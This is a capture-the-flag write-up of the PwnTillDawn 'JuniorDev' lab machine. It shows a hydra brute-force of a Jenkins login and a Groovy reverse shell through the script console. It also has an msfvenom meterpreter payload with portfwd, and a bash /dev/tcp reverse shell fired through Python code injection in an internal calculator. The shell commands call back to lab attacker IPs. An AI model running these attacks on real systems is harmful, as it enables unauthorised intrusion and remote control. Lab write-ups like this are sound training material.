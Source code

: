 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python]
math: true
mermaid: true
image:
  src: https://imgur.com/Yfejewk
  width: 800
  height: 500
---
```


![info](https://imgur.com/Yfejewk)

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![nmap](img/pwn/jnrdev/nmap.png)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>

![web](https://imgur.com/klt9dCX)


Since we dont have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![hydra](https://imgur.com/klt9dCX)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![login](https://imgur.com/OSvL3Nt)<br>
     

The credentials worked we are logged in now.<br>
![logged in](https://imgur.com/uCw0l30)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![test-rce](https://imgur.com/6WADwED)<br>


Now  that we can execute commands on the target, its time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![reverse-shell](https://imgur.com/jIE48Vg)<br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transfered linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![lo address](https://imgur.com/pGmvFM4)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![lo address](https://imgur.com/0hk2eI3)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![contents index](https://imgur.com/t2gkbU0)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![msfvenom](https://imgur.com/ucnPApI)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning fortrt incoming connections.<br>
![payload transfer](https://imgur.com/N10E0gV)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd`command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![msfshell portfwd](https://imgur.com/hZfURL1)<br>

Now that we the target port `8080` connected back to our attacking machine, wehn visited, we found a python maths console.<br>
![internal web](https://imgur.com/fqWLB5U)<br>

Since it's a simple python maths calculator, we can easily bypasss the pythin functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transfered the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the pythin calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![root-shell](https://imgur.com/3MnjYsn)
